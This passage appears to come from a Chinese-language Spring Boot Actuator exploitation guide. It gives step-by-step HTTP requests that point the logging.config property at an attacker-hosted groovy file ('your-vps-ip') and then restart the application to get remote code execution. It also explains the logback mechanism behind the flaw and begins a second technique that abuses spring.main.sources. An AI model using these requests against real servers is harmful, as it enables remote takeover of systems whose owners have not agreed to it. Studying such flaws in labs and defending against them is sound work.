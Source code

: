 ```php
POST /actuator/env
Content-Type: application/json

{"name":"logging.config","value":"http://your-vps-ip/example.groovy"}
```

##### 步骤三：重启应用

spring 1.x

```php
POST /restart
Content-Type: application/x-www-form-urlencoded
```

spring 2.x

```php
POST /actuator/restart
Content-Type: application/json
```

#### 漏洞原理：

1. 目标机器通过 logging.config 属性设置 logback 日志配置文件 URL 地址
2. restart 重启应用后，程序会请求设置的 URL 地址
3. `logback-classic` 组件的 `ch.qos.logback.classic.util.ContextInitializer.java` 代码文件逻辑中会判断 url 是否以 `groovy` 结尾
4. 如果 url 以 `groovy` 结尾，则最终会执行文件内容中的 groovy 代码，造成 RCE 漏洞

#### 漏洞环境：

[repository/springboot-restart-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-restart-rce)

正常访问：

```php
http://127.0.0.1:9098/actuator/env
```

### 0x0B：restart spring.main.sources groovy RCE

#### 利用条件：

- 可以 POST 请求目标网站的 `/env` 接口设置属性
- 可以 POST 请求目标网站的 `/restart` 接口重启应用
- 目标可以请求攻击者的 HTTP 服务器（请求可出外网），否则 restart 会导致程序异常退出
- HTTP 服务器如果返回含有畸形 groovy 语法内容的文件，会导致程序异常退出
- 环境中需要存在 groovy 依赖，否则会导致程序异常退出

#### 利用方法：

##### 步骤一：托管 groovy 文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）
